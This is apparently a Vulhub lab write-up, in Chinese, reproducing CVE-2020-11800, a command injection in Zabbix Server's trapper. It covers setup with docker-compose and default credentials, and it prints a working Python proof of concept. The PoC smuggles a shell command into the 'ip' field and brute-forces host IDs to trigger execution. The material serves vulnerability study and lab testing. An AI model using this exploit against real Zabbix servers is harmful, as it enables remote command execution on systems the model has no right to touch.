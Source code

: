 # Zabbix Server trapper命令注入漏洞 CVE-2020-11800

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)中，其Server端 trapper command 功能存在一处代码执行漏洞，而修复补丁并不完善，导致可以利用IPv6进行绕过，注入任意命令。

参考链接：

- https://xz.aliyun.com/t/8991

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

使用账号密码`admin/zabbix`登录后台。利用该漏洞，需要你服务端开启了自动注册功能，开启方法请参考[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)。

## 漏洞复现

修改[CVE-2017-2824](https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2017-2824)的POC中的IP字段，构造新的POC：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/awesome_poc_2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

当查看到如下结果时，则说明命令执行成功：

![image-20220303153034616](./images/202203031530752.png)

进入server容器，可见`/tmp/awesome_poc_2`已成功创建：

![image-20220303153108613](./images/202203031531690.png)

